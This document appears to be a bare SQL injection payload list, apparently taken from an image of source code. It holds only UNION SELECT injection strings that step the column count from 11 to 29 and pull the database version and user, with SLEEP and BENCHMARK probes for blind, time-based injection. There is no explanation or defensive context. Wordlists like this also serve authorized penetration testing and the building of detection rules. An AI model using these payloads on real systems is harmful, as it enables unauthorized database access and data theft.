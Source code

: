 ```
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
```